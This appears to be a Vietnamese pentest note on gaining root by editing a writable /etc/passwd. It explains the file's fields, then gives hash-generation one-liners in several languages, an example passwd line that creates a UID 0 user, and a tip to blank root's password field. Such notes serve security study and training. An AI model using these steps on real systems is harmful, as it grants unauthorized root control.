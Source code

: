 # Editing /etc/passwd File for Privilege Escalation

# Tổng quan 

Thư mục /etc có 3 file quan trọng:
- etc/passwd: có thể đọc, lưu trữ thông tin tài khoản người dùng.
- ect/group: có thể đọc, lưu trữ thông tin người dùng thuộc nhóm nào.
- etc/shadow: thông tin mật khẩu được mã hóa, thời hạn, policy của mật khẩu.

![image](https://github.com/user-attachments/assets/5c842330-5249-4616-ab13-86b3472becca)

![image](https://github.com/user-attachments/assets/488d6116-3449-460b-aef6-b635fddde985)

Username: Tên của người dùng được sử dụng để đăng nhập.

Encrypted password: X biểu thị mật khẩu được mã hóa thực sự được lưu trữ bên trong tệp /shadow. Nếu người dùng không có mật khẩu thì trường mật khẩu sẽ có dấu *.

User Id (UID): Mỗi người dùng phải được cấp một ID người dùng (UID). UID 0 (không) được giữ cho người dùng root và UID 1-99 được giữ cho các tài khoản được xác định trước, UID 100-999 được hệ thống lưu giữ cho mục đích quản trị. UID 1000 hầu như luôn là người dùng phi hệ thống đầu tiên, thường là quản trị viên. Nếu chúng tôi tạo một người dùng mới trên hệ thống Ubuntu của mình, người dùng đó sẽ được cấp UID là 1001.

Group Id (GID): Nó biểu thị nhóm của từng người dùng; Giống như UID, 100 GID đầu tiên thường được giữ lại để sử dụng cho hệ thống. GID bằng 0 liên quan đến nhóm gốc và GID bằng 1000 thường biểu thị người dùng. Các nhóm mới thường được phân bổ GID bắt đầu từ 1000.

Gecos Field: Thông thường, đây là tập hợp các giá trị được phân tách bằng dấu phẩy cho biết thêm chi tiết liên quan đến người dùng. Định dạng cho trường GECOS biểu thị các thông tin sau:

Tên đầy đủ của người dùng

Số nhà và phòng hoặc người liên hệ

Số điện thoại văn phòng

Shell: Nó biểu thị đường dẫn đầy đủ của shell mặc định thực thi lệnh (bởi người dùng) và hiển thị kết quả.

LƯU Ý: Mỗi trường được phân tách bằng (dấu hai chấm)

# Các Kiểu edit

### Diều kiện tiên quyết: có quyền write file /etc/passwd

### Các cách edit
- openssl: `openssl passwd 123` ---> xxxxx
  
      user:xxxxx:0:0:root:/root:/bin/bash
- mkpasswd -m <method> <password>

      mkpasswd -m SHA-512 pass123
- python
  
      python3 -c 'import crypt; print (crypt.crypt("pass123", "$6$salt"))'
- perl

      perl -le 'print crypt("pass123", "abc")'
- php

      php -r "print(crypt('aarti','123') . \"\n\");"
- ruby

      ruby -r 'digest' -e 'puts "pass".crypt("$6$salt")'
- Đặc biệt có thể xóa kí tự x hoặc * của root trong file /etc/passwd

![image](https://github.com/user-attachments/assets/09a81c5d-1546-4874-9576-e60c552f5b7b)

![image](https://github.com/user-attachments/assets/49abd8a3-ad06-4824-ae72-f3041502d4f0)


